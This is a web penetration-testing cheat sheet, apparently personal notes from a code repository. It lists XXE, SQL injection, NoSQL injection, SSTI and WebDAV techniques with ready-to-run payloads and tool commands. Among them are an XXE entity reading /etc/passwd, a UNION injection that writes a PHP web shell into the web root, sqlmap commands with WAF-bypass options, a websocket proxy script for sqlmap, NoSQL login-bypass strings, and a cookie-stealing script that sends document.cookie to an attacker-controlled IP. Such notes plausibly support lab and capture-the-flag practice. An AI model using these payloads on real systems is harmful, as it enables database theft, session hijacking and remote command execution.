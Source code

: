 # Cross Site Scripting (XSS)
:information_source: https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)
:information_source: https://www.scip.ch/en/?labs.20171214 
:information_source: https://xss-game.appspot.com/
:information_source: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
:information_source: https://github.com/payloadbox/xss-payload-list
:information_source: https://tryhackme.com/room/learnowaspzap

# XML External Entities (XXE)
Basic idea: upload an xml to test if it gets parsed and then abusing the doctype definition (DTD).

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

# SQL Injection
## Resources
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
* https://github.com/payloadbox/sql-injection-payload-list

## Manual Enumeration
```
http://10.10.10.10/debug.php?id=1 order by 1 # increase until an error occurs to get number of columns

http://10.10.10.10/debug.php?id=1 union all select 1, 2, 3
http://10.10.10.10/debug.php?id=1 union all select 1, username, password
http://10.10.10.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
http://10.10.10.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

## sqlmap
* example commands
```
sqlmap --url http://10.10.128.77:8000/sqlpanel --tables --columns
sqlmap -r sqlpanel.request --dbms=sqlite --dump-all --tamper=space2comment
```
* capture sqlpane.request with burpsuite first
* --tamper=space2comment for trying to bypass WAF
* It is worth to try to increase the risk and level parameter e.g.
```
sqlmap -r req --batches --risk 3 --level 5
```
* You can also specify the technique with ``--technique=T``
    * B: Boolean based
    * E: Error based
    * U: Union-query based
    * S: Stacked queries
    * T: Time-based blind
    * Q: Inline queries



# Server Side Template Injection (SSTI)
Server-side template injection is a vulnerability where the attacker injects malicious input into a template to execute commands on the server-side

* See https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
* Payload Generator: https://github.com/VikasVarshney/ssti-payload

## SQLi websocket
sqlmap can not handle websocket requests therefore the following python script is needed to proxy the requests to the websocket:
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```
adjust the port and path and execute it
in another terminal run
```
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

Make sure to try every syntax
```
*{}
${}
#{}
```

# NoSQL Injection
* https://book.hacktricks.xyz/pentesting-web/nosql-injection

Check with the following characters for NoSQL database (if the webserver is responding with a 50X response code)
```
'"\/$[].>

# Examples
username[$ne]=1$password[$ne]=1
username[$ne]=toto&password[$ne]=toto
username='"\/$[].>&password=admin
username=admin'||'1==1&password=admin
```

# WebDAV
WebDAV is an extenstion of HTTP that allows clients to perform remote Web content authoring operations. RFC4918.

## Resources
* [Blogpost from Nullbyte](https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/)
* HackTheBox: Granny 

## davtest
DAVTest tests WebDAV enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target.
```
davtest -url http://10.10.10.15
```

## cadaver
Cadaver is a simple command-line client, similar to for example the 'ftp' program. It has some advanced features such as lock-management, property management, DASL and version control support.
```
cadaver http://10.10.10.15/mfu
```

# Cookie Stealer
```
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
```

See Github Repo 'Redline'
